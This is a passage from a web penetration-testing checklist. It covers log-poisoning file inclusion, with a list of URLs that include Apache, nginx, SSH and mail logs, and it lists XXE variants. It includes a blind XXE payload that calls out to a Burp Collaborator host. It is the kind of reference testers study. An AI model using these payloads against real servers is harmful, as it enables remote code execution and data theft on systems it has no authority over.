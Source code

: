         Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.
        
        ```jsx
        http://example.com/index.php?page=/var/log/apache/access.log
        http://example.com/index.php?page=/var/log/apache/error.log
        http://example.com/index.php?page=/var/log/apache2/access.log
        http://example.com/index.php?page=/var/log/apache2/error.log
        http://example.com/index.php?page=/var/log/nginx/access.log
        http://example.com/index.php?page=/var/log/nginx/error.log
        http://example.com/index.php?page=/var/log/vsftpd.log
        http://example.com/index.php?page=/var/log/sshd.log
        http://example.com/index.php?page=/var/log/mail
        http://example.com/index.php?page=/var/log/httpd/error_log
        http://example.com/index.php?page=/usr/local/apache/log/error_log
        http://example.com/index.php?page=/usr/local/apache2/log/error_log
        ```
        
        - [ ]  RCE via SSH
        - [ ]  RCE via Mail
        - [ ]  RCE via Apache logs
- **XXE Injection**
    - Error Based XXE
        - [ ]  Error Based - Using Local DTD File
        - [ ]  Error Based - Using Remote DTD
    - Blind XXE
        
        The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.
        
        ```jsx
        <?xml version="1.0" ?>
        <!DOCTYPE root [
        <!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
        ]>
        <r></r>
        ```
        
    - XXE in exotic files
        - [ ]  XXE inside SVG
        - [ ]  XXE inside SOAP
        - [ ]  XXE inside DOCX file
        - [ ]  XXE inside XLSX file
        - [ ]  XXE inside DTD file
    - Other Attacks
        - [ ]  XXE to perform SSRF attacks
        - [ ]  XXE to perform a deny of service
        - [ ]  PHP Wrapper inside XXE
        - [ ]  
- **File Upload Attacks**
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/078aa5d5-c7f7-4467-a026-7dcc1e7ab45e/9072b550-2984-45c9-9602-7d3d2147622d/Untitled.png)
    
    - Defaults extensions
        - PHP Server
            